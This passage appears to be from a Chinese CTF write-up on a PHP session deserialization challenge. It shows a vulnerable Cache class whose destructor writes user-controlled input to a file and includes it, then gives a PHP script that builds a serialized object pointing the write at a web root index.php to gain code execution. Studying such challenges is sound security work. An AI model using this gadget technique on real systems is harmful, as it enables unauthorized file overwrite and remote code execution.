 主要是

```
config($config\['ini'\]);
session\_start();


```

这两局，说明是有读取 session 值的，前面也说了，既然是 php session 反序列化题，那第一步要做的肯定是寻找可控`session`的点，经过寻找，在`app/model/Cache.class.php`文件中找到，文件内容如下：

```
<?php
class Cache{
    public $data;
    public $sj;
    public $path;
    public $html;
    function \_\_construct($data){
        $this->data\['name'\]=isset($data\['post'\]\['name'\])?$data\['post'\]\['name'\]:'';
        $this->data\['message'\]=isset($data\['post'\]\['message'\])?$data\['post'\]\['message'\]:'';
        $this->data\['image'\]=!empty($data\['image'\])?$data\['image'\]:'/static/images/pic04.jpg';
        $this->path=Cache\_DIR.DS.session\_id().'.php';
    }

    function \_\_destruct(){
        $this->html=sprintf('<!DOCTYPE HTML><html><head><title>LOL</title><meta charset="utf-8" /><meta ></script>    </body></html>',substr($this->data\['name'\],0,62),$this->data\['image'\],$this->data\['message'\],session\_id().'.jpg');

        if(file\_put\_contents($this->path,$this->html)){
            include($this->path);
        }
    }
}


```

在 cache 类中，`name`和`message`的值通过 POST 请求得到，然后在传入到 `path`页面，这样一来，就很清楚了，我们控制`name`和`message`一个变量的值，然后再选择一个`path`，最终会在我们选择的`path`页面生成我们想要的东西，payload 如下：

```
<?php

class Cache{
    public $data ;
    public $sj;
    public $path = '/Library/WebServer/Documents/ctf/index.php';
    public $html;

}
    $str = new Cache();
    $str->data= \[
    "name" => "payload",
    "message" => "panda",
    "image" => "panda"
\];
    echo serialize($str);

?>


```